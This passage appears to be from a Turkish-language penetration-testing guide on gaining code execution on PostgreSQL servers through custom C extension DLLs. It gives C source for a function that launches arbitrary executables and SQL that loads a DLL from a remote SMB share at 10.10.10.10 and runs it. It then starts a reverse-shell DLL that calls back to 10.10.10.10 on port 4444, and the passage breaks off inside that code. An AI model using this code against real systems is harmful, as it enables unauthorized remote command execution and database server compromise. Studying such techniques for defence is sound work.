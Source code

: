 ```c
PGDLLEXPORT Datum pgsql_exec(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(pgsql_exec);

/* this function launches the executable passed in as the first parameter
in a FOR loop bound by the second parameter that is also passed*/
Datum
pgsql_exec(PG_FUNCTION_ARGS)
{
/* convert text pointer to C string */
#define GET_STR(textp) DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))

/* retrieve the second argument that is passed to the function (an integer)
that will serve as our counter limit*/

int instances = PG_GETARG_INT32(1);

for (int c = 0; c < instances; c++) {
/*launch the process passed in the first parameter*/
ShellExecute(NULL, "open", GET_STR(PG_GETARG_TEXT_P(0)), NULL, NULL, 1);
}
PG_RETURN_VOID();
}
```
Bu zip dosyasında derlenmiş DLL'yi bulabilirsiniz:

{{#file}}
pgsql_exec.zip
{{#endfile}}

Bu DLL'ye **hangi ikili dosyanın çalıştırılacağını** ve kaç kez çalıştırılacağını belirtebilirsiniz, bu örnekte `calc.exe` 2 kez çalıştırılacaktır:
```bash
CREATE OR REPLACE FUNCTION remote_exec(text, integer) RETURNS void AS '\\10.10.10.10\shared\pgsql_exec.dll', 'pgsql_exec' LANGUAGE C STRICT;
SELECT remote_exec('calc.exe', 2);
DROP FUNCTION remote_exec(text, integer);
```
[**burada** ](https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html) bu ters kabuğu bulabilirsiniz:
```c
#define PG_REVSHELL_CALLHOME_SERVER "10.10.10.10"
#define PG_REVSHELL_CALLHOME_PORT "4444"

#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <winsock2.h>

#pragma comment(lib,"ws2_32")

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

#pragma warning(push)
#pragma warning(disable: 4996)
#define _WINSOCK_DEPRECATED_NO_WARNINGS

BOOL WINAPI DllMain(_In_ HINSTANCE hinstDLL,
_In_ DWORD fdwReason,
_In_ LPVOID lpvReserved)
{
WSADATA wsaData;
```